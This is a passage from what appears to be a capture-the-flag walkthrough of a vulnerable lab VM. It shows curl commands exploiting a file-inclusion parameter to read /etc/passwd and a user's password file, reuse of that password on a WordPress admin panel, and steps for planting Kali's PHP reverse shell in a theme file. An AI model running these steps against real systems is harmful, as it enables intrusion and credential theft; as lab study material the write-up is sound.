 ```curl http://192.168.20.149/image.php?secrettier360=/etc/passwd```

victor:x:1000:1000:victor,,,:/home/victor:/bin/bash

mysql:x:121:129:MySQL Server,,,:/nonexistent:/bin/false

**saket:x:1001:1001:find password.txt file in my directory:/home/saket:**

sshd:x:122:65534::/var/run/sshd:/usr/sbin/nologin

As can be seen from the output above, looks like user saket has password.txt
file in his home directory.

root\@kali:\~\# curl
http://192.168.20.149/image.php?secrettier360=/home/saket/password.txt

\<html\>

\<title\>HacknPentest\</title\>

\<body\>

\<img src='hacknpentest.png' alt='hnp security' width="1300" height="595"
/\>\</p\>\</p\>\</p\>

\</body\>

finaly you got the right parameter\<br\>\<br\>\<br\>\<br\>**follow_the_ippsec**

\</html\>

Follow_the_ippsec is the contents of password.txt file.

### Browser (WordPress Admin’s Panel)

The password did not work for user victor and saket when tried with SSH.
However, it did work for the WordPress site’s administrator’s panel.

![](media/37f1f9cd00fe0148b05b1347ddd2bfdf.png)

Low Privilege Exploitation
--------------------------

After further enumeration a writeable php file has been found, while using
WordPress’ theme editor.

![](media/cbd8b5603277fbdb8e0888e50a36aea0.png)

A PHP reverse shell code can be found on Kali,
/usr/share/webshells/php/php-reverse-shell.php

Using gedit to open the file and copy the shell code.

root\@kali:\~\# gedit /usr/share/webshells/php/php-reverse-shell.php

![](media/2eada3c53aa8068a86df88141b093b99.png)

PHP reverse shell code can be inserted into this php file.

Notice that IP address variable must be changed to the IP of the attacking
system and port variable must be changed to the port that is listening on the
attacking system.

![](media/a84101f566957f1040ce8641a31ad330.png)
```